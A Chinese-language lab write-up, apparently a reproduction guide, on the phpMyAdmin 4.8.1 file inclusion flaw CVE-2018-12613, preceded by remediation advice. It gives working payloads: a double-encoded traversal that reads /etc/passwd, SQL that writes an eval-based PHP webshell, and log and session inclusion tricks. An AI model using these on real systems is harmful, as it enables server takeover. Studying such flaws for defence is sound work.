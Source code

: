 #### 修复建议

1. 升级phpMyAdmin
将受影响的phpMyAdmin版本升级到最新版本。最新版本可以从phpMyAdmin官方网站下载。

1. 限制访问权限
为了降低攻击风险，仅允许授权用户访问phpMyAdmin，并且不要将phpMyAdmin暴露在公共网络中。

1. 使用Web应用防火墙
可以使用Web应用防火墙（WAF）来阻止攻击者利用漏洞进行攻击。WAF可以检测并拦截来自攻击者的恶意请求。

### phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613）

#### 漏洞描述
phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成 远程文件包含漏洞。

#### 影响版本
`phpMyAdmin 4.8.0`和`4.8.1`。

#### 漏洞复现
访问`http://your-ip:8080`，即可进入phpmyadmin。因配置的是`config`模式，所以无需输入密码，直接登录后台。

访问`http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`，可见`/etc/passwd`被读取，说明文件包含漏洞存在。

**利用方式一：**
可以执行一下`SELECT '<?=phpinfo()?>';`，然后查看自己的sessionid（cookie中phpMyAdmin的值），然后包含session文件。然后
访问`http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_XXXXXX`，即可看到phpinfo。
通过测试发现此方式无法包含一句话木马，可能因为对内容进行了一些过滤和处理。
**利用方式二：**
mysql5.0以上会创建日志文件，可以通过修改日志文件的路径，然后写入一句话木马，再包含日志文件，即可执行木马。
查看日志状态：`show variables like '%log%';`
开启日志：`set global general_log=on;`
设置日志路径：`set global general_log_file='/指定路径/1.php';`
此方法需要有SUPER权限权限，否则会报错。而在站库分离的情况下，数据库文件存储在数据库服务器上，而phpmyadmin在web服务器上，所以无法进行文件包含。
**利用方式三：**
将木马写入到数据库字段中，然后包含数据库文件，即可执行木马。
查看数据库文件路径：`show variables like '%datadir%';`
新建一个test表，然后将木马写入到字段中。
最后将数据库文件包含进来。
`http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/mysql/test/test.frm`
mysql后面跟/db_name/table_name.frm，即可包含数据库文件。
站库分离的情况下，数据库文件存储在数据库服务器上，而phpmyadmin在web服务器上，所以无法进行文件包含。

**利用方式四：**
利用`file_put_contents()`函数写入一句话木马，然后通过访问session文件包含木马，即可执行木马。
```sql
SELECT "<?=file_put_contents('1.php','<?php @eval($_POST[cmd]); ?>')?>";
```
访问`http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_XXXXXX`之后生成1.php，然后再访问`http://your-ip:8080/1.php`，即可发现写入成功，蚁剑连接即可。
